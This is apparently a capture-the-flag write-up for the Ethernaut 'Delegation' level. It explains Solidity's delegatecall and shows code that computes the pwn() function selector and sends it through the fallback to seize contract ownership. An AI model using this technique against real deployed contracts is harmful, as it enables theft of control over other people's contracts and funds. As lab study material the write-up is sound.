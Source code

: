 # Delegation

The goal of this level is to claim ownership of the instance given.

A low level call: ```delegatecall()``` is to be made.

## What's delegatecall

It a way of a contract, say _contract A_, allowing another, _contract B_, to do whatever it wants with its storage. The call is executed in the context of the allowing contract, _contract A_.

## How do I get past this

There's a need for ```data```, which is a ```bytes4``` to be sent to be able to invoke the public function ```pwn()``` in the ```Delegate``` contract.

I got this bytes4 hash using a ```GetHash``` contract on Remix as stated below, employing _keccak256()_:

```solidity
pragma solidity ^0.4.10;

contract GetHash {
  function getHash() public pure returns (bytes4) {
    return bytes4(keccak256("pwn()"));
  }
}

```

The resulting hash after calling the ```getHash()``` method was sent to claim ownership:

```js
await contract.sendTransaction({ data: hash })

```
This helps resolved this level.

### Vulnerability

The delegating contract could have it storage messed with, if the contract receiving the delegation decides to be malicious.
